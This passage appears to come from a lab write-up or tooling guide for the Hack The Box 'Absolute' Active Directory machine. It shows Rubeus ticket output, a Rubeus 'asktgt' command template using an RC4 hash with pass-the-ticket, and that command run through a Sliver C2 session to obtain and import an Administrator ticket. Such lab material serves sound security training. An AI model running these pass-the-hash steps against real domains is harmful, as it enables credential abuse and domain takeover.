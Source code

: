 ```console {class="sample-code"}
  ServiceRealm             :  ABSOLUTE.HTB
  UserName                 :  m.lovegod (NT_PRINCIPAL)
  UserRealm                :  ABSOLUTE.HTB
  StartTime                :  9/24/2024 7:16:52 AM
  EndTime                  :  9/24/2024 11:16:52 AM
  RenewTill                :  9/24/2024 11:16:52 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  aBhZJr9iogDKSLtohxAgie5HPBSLktIxsRYujp/MqVA=
  ASREP (key)              :  7455663292585851686A2C8B2DF22DCA5B0A3E84404DD480466E982E49B10554
```

{{< /tabcontent >}}
{{< tabcontent set5-1 tab2 >}}

```console
rubeus -- 'asktgt /user:<USER> /rc4:<HASH> /domain:<DOMAIN> /dc:<DC> /ptt /nowrap'
```

```console {class="sample-code"}
sliver (helloworld) > rubeus -- 'asktgt /user:Administrator /rc4:1f4a6093623653f6488d5aa24c75f2ea /domain:ABSOLUTE.HTB /dc:DC.ABSOLUTE.HTB /ptt /nowrap'

[*] rubeus output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 1f4a6093623653f6488d5aa24c75f2ea
[*] Building AS-REQ (w/ preauth) for: 'ABSOLUTE.HTB\Administrator'
[*] Using domain controller: fe80::71ce:9b94:4962:d202%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFpDCCBa ---[SNIP]--- VURS5IVEI=
      
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/ABSOLUTE.HTB
  ServiceRealm             :  ABSOLUTE.HTB
  UserName                 :  Administrator (NT_PRINCIPAL)
  UserRealm                :  ABSOLUTE.HTB
  StartTime                :  9/24/2024 7:17:33 AM
  EndTime                  :  9/24/2024 5:17:33 PM
  RenewTill                :  10/1/2024 7:17:33 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  BIdtxt2Rokdo+R9tNjoCLA==
  ASREP (key)              :  1F4A6093623653F6488D5AA24C75F2EA
```
